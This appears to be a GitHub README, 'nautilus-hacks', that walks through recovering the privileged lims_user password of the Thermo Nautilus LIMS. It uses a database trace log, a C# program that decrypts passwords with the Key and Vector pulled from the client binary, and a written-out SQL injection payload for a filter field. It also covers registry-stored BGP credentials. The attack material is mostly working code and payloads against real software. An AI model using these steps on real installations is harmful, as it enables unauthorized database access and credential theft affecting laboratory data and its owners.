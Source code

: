 # nautilus-hacks

## Getting lims_user password (#1)

Add a server with `TRACE` preceding the actual Database Type.  

![Server window with TRACE database type](img/01.jpg)

Make sure the "TRACE" part "sticks".  It might not if you create a new server entry, and you'll have to edit the properties. 
You'll know it is good to go when you see "TRACE" in the server list.

![Server list showing TRACE prefix](img/02.jpg)

Select the trace server and login.

![Login window with trace server selected](img/03.jpg)

The Database Trace window appears.  You can clear all the checkboxes and provide a log location for saving.

![Database trace window](img/04.jpg)

Once you click OK in the Database Trace window, you will be logged in and the Nautilus client will be logging.  
Log out immediately and close Nautilus.

Navigate to the location you saved your trace log.

![Windows explorer at log location](img/06.jpg)

Open the log and find the keys to the kingdom.  Good grief.

![Log file showing lims_user password](img/07.jpg)


## Getting lims_user password (#2)

Login (any user with lims_readonly) and run query:   

```sql
select lims_security.get_role_security from dual;
```

(If you don't have a means of connecting to the database other than the Nautilus client, see section 
on "Get Nautilus to cough up unintended data using SQL injection").

Will give back something like `H7y5bAD1IidlB1YqxVyusw==`, which is the encrypted password.

Open the .Net IL disassembler, ildasm.exe.  When Visual Studio is installed, ildasm can be found in a path such as `C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.6.1 Tools`.

In ildasm, open NautilusRoleSecurity.exe, which is typically installed in `C:\Nautilus`.  When the exe has been loaded, select File > Dump.  The only required option is "Dump IL Code".  Open the dumped ".il" file with a text editor.  Search for "Vector" and/or "Key" and find the two private field values, like this:

```
.field static assembly literal string Key = "Nautilus"
.field static assembly literal string Vector = "Secret"
```

Make a note of the `Key` and `Vector` values.

Create a new C# console application.  Add `Thermo.Nautilus.BL.Services.dll` as a reference.  It can be found next to NautilusRoleSecurity.exe or next to Nautilus.exe.  Here is example code for the console application:

```csharp
using System;
using Thermo.Nautilus.BL.Services;

namespace DecryptNautilusPasswords
{
    class Program
    {
        static void Main(string[] args)
        {
            try 
            {
                if (args.Length < 3) throw new ArgumentException();
                
                var decrypted = string.Empty;
                var sym = new SymmCrypto();
                sym.Decrypt(args[0], args[1], args[2], out decrypted);
                Console.WriteLine(decrypted);
            }
            catch (Exception) 
            {
                Console.WriteLine("Failed to decrypt.  Try again, passing args in this order: 1.Key 2.Vector 3.EncryptedPassword");
            }
        }
    }
}

```

And here is how the example compiled executable would work:

```shell
> ExecutableName.exe Nautilus Secret H7y5bAD1IidlB1YqxVyusw==
secret123
```

The output is the decrypted password. (In this case, "secret123")

This same process works for encrypted values in the registry (BGP username, password at `HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Thermo\Nautilus\9.3\BGP#servername#instancename#x\ParameterX`).



## Get Nautilus to cough up unintended data using SQL injection

Go to a folder that uses a filter with a text argument.  For this example, there is a folder for finding a plate by its name.
The filter looks like this:

![Filter properties showing where statement](img/08.jpg)

Change the plate entity's view settings to show only the name.  This will make the SQL injection simpler:

![Explorer columns window for plate entity showing only Name column](img/09.jpg)

Refresh the filter.  In the filter arguments window, provide the SQL injection string as the text value.  
The injection string must close the substituted string with a `'` character, append a right paren, then `union` the 
query to inject.  The unioned select must have an ID value (can be `0`), then the column of
the info you want displayed *TWICE*, then a status column (using `'X'` here), then six string values (use `''`).  After the 
injected query, remember to add `--` to comment out the remainder of the hard coded SQL. For example, to get this plate
view to display the encrypted lims_role password, use the following as the text argument in the "Plate by name" filter:

```
') union SELECT 0, lims_security.get_role_security, lims_security.get_role_security,'X','','','','','','' from dual  -- 
```

Like so:

![Filter args window showing injected SQL value](img/10.jpg)

The result should be exactly what it is you wanted to see:

![Explorer window showing result of injected SQL](img/11.jpg)
